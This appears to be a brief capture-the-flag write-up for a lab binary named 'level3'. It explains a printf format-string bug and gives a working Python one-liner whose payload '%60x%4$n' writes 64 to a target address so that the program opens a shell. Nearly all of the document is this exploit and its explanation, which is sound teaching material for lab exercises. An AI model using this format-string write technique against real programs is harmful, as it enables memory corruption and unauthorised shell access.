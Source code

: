 The code calls printf without format string.
Then it move 0x804988c into %eax, compare it against $0x40, and open a shell if they are equal
So we could try to set 0x804988c to 0x40
The command is :
```
python -c 'print "\x8c\x98\x04\x08%60x%4$n"' > /tmp/str && cat /tmp/str - | ./level3
```
- `\x8c\x98\x04\x08` is the target adress
- `%60x` add 60 bytes off padding. Added to our address, we have written 64bytes.
- `%4` is the 4th arg of the stack. It's the begining of our string, aka the adress
- `$n` write the length of the output at the given time to the pointeur passed as arg
So it will write 64 (current output len) to the address, thanks to %4 !

more details here: https://axcheron.github.io/exploit-101-format-strings/

